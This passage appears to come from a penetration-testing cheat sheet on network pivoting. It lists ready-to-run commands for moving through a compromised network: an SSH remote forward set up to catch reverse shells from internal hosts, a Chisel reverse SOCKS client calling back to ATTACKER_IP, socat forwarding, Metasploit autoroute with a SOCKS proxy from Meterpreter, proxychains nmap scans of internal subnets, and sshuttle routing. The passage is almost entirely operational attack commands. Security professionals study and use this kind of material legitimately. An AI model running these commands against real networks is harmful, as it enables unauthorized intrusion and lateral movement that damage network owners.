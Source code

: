 6) SSH Remote port forward (expose your local listener to the pivot side)
- Useful to catch reverse shells from internal hosts:
```
ssh -N -f -R 0.0.0.0:4444:127.0.0.1:4444 PIVOT_USER@PIVOT_IP -o ExitOnForwardFailure=yes
# Now a shell on INTERNAL_HOST can connect to PIVOT_IP:4444 and reach your local listener.
```

7) SSH ProxyJump (simple hop for SSH access to internal hosts)
```
ssh -J PIVOT_USER@PIVOT_IP USER@INTERNAL_HOST
scp -o ProxyJump=PIVOT_USER@PIVOT_IP file USER@INTERNAL_HOST:/tmp/
```

8) Chisel reverse SOCKS (when only outbound from pivot is allowed)
- On attacker:
```
chisel server --reverse -p 8000
```
- On pivot (upload chisel and run):
```
./chisel client ATTACKER_IP:8000 R:1080:socks
```
- Now you have a SOCKS5 proxy on attacker 127.0.0.1:1080:
```
proxychains -q nmap -sT -Pn -n -p 445 INTERNAL_SUBNET
```

9) Socat simple TCP forward (if SSH not available)
- Forward pivot:8443 to INTERNAL_HOST:443 (run on pivot):
```
socat TCP-LISTEN:8443,fork,reuseaddr TCP:INTERNAL_HOST:443
```
- From attacker, connect to PIVOT_IP:8443 to reach INTERNAL_HOST:443.

10) Metasploit autoroute + SOCKS proxy (if using Meterpreter)
- In meterpreter:
```
run post/multi/manage/autoroute
# or manual:
route add INTERNAL_SUBNET 255.255.255.0
```
- Start SOCKS proxy in msfconsole:
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
```
- Then:
```
proxychains -q nmap -sT -Pn -n -p 445 INTERNAL_SUBNET
```

11) sshuttle (layer-3 transparent routing via SSH)
- Good for broad TCP/ICMP-like reachability without proxychains:
```
sudo sshuttle -r PIVOT_USER@PIVOT_IP INTERNAL_SUBNET -x ATTACKER_IP --dns
```
Note: Requires Python on pivot; may be blocked by strict firewalling.
